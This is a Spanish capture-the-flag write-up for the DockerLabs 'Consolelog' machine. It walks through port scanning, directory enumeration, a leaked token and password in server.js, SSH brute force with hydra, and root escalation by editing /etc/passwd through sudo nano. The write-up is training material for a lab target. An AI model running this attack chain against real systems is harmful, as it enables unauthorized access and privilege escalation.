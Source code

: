 ```yaml
---
title: Consolelog - DockerLabs
published: true
categories: DockerLabs
---
```


| OS     | Dificultad  | Creator           |
| ------ | ----------- | -------------     |
| Linux  |  Fácil      | El Pingüino de Mario |

# Reconocimiento Inicial

Comenzamos el proceso de reconocimiento identificando los puertos abiertos en el sistema objetivo.

```shell
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG ports
```

- `-p-`: Escanea todos los puertos (1-65535).
- `--open`: Solo muestra los puertos abiertos.
- `-sS`: Realiza un escaneo SYN, que es rápido y discreto.
- `--min-rate=5000`: Envía al menos 5000 paquetes por segundo, acelerando el escaneo.
- `-n`: No realiza resolución DNS.
- `-Pn`: No realiza ping previo para determinar si el host está activo.
- `-vvv`: Muestra resultados detallados y en tiempo real.

![image](https://github.com/user-attachments/assets/463bc887-458f-4249-9e04-50b15ab5aa57)

Durante el escaneo, descubrimos que el puerto abierto es:
- `8080` (HTTP)
- `3000` (Node)
- `5000` (SSH)

# Enumeración de Servicios

A continuación, evaluamos si los puertos abiertos presentan alguna vulnerabilidad y obtenemos más información sobre los servicios asociados a estos puertos.

```bash
nmap -p80,3000,5000 -sCV 172.17.0.2 -oG targeted  
```

![image](https://github.com/user-attachments/assets/21950d80-3e56-42ca-ad50-6b960f9d72da)

# Exploración Web

Al navegar al puerto `80`, descubrimos un sitio web con el titulo mi sitio web y un boton el cual es `Boton en fase beta`.

Utilizamos `Gobuster` para realizar un reconocimiento web y explorar los directorios disponibles en el sitio.

```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,doc,html,txt,img
```
- `gobuster dir`: Indica que estás utilizando la herramienta Gobuster para realizar un escaneo de directorios.
- `-u http://172.17.0.2/`: Especifica la URL objetivo que deseas escanear.
- `-w`: Especifica el diccionario a utilizar.
- `-x`: Indica los tipos de extensiones que deseas buscar.

![image](https://github.com/user-attachments/assets/5d7cea6b-7108-49a9-be4b-2ba3959af3c2)

Encontramos una ruta llamada backend la cual contiene varios archivos y uno de esos es el server.js que contiene como funciona node en el peurto 3000.

```java
const express = require('express');
const app = express();

const port = 3000;

app.use(express.json());

app.post('/recurso/', (req, res) => {
    const token = req.body.token;
    if (token === 'tokentraviesito') {
        res.send('lapassworddebackupmaschingonadetodas');
    } else {
        res.status(401).send('Unauthorized');
    }
});

app.listen(port, '0.0.0.0', () => {
    console.log(`Backend listening at http://consolelog.lab:${port}`);
});

```
Nos esta diciendo que en el puerto 3000 si hacemos una peticion post a traves de json podemos a traves de la ruta /recurso la variable token si ponemos tokentraviesito nos devolvera lapassworddebackupmaschingonadetodas

```bash
curl -X POST http://172.17.0.2:3000/recurso/ -H "Content-Type: application/json" -d '{"token": "tokentraviesito"}'  
```
![image](https://github.com/user-attachments/assets/51ba41bb-66af-44be-9522-63cceabdeb9f)

Con esto no podemos hacer nada mas , pero y si es una contraseña de algun usuario del sistema del puerto ssh que hemos visto durante el escaneo

Para ello haremos fuerza bruta buscando algun usuario con la contraseña `lapassworddebackupmaschingonadetodas`, con `hydra`.

```bash
hydra -L /usr/share/wordlists/rockyou.txt  -p "lapassworddebackupmaschingonadetodas" ssh://172.17.0.2:5000 -t 4
```
![image](https://github.com/user-attachments/assets/3e733dac-0c6d-4864-a4f8-ad413cf5d71a)

Encontramos el usuario lovely.


Al acceder ejecutamos `sudo -l` y verificamos que podemos ejecutar `nano` como `root`:

![image](https://github.com/user-attachments/assets/788a4abb-a227-4378-924a-ae8882fd174d)

Mof+dificamos el archivo /etc/passwd quitando la x al usuario root, poruqe pues porque la quitar la x hace que no nos pida contraseña al acceder.

![image](https://github.com/user-attachments/assets/5c3f49dc-018b-4924-9df9-57446f6dc032)

Y ahora con que hagamos un su root, ya seriamos root.

![image](https://github.com/user-attachments/assets/2ff5985e-9af5-47d2-a01f-48c66cc44789)
